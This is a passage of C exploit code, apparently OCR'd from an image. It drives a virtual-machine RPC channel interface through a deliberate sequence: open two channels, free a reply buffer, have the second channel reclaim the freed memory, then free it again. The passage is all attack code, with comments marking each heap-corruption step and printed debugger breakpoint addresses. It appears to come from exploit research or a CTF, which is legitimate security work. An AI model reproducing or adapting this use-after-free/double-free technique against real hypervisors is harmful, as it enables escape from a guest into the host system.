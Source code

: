 ```
        return;
    }
    channel_send_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s21),s2,&res);
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i++){
        channel_recv_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,i,data,&res);
    }
    printf("recv data:%s\n",data);
    //second step free the reply and let the other channel get it.

    channel_open(&chan[1].cookie1,&chan[1].cookie2,&chan[1].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s2),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }

    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s2)-4,s2,&res);
    if(!res){
        printf("fail to send data\n");
        return;
    }

    //free the output buffer
    printf("Freeing the buffer....,bp:0x5555556DD3EF\n");
    getchar();
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,0xffff,&res);
    if(!res){
        printf("fail to recv finish1\n");
        return;
    }
    //finished sending the command, should get the freed buffer
    printf("Finishing sending the buffer , should allocate the buffer..,bp:0x5555556DD5BC\n");
    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,4,&s2[16],&res);
    if(!res){
        printf("fail to send data\n");
        return;
    }

    //third step,free it again
    //set status to be 4


    //free the output buffer
    printf("Free the buffer again...\n");
    getchar();
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,0xffff,&res);

    if(!res){
        printf("fail to recv finish2\n");
        return;
    }
```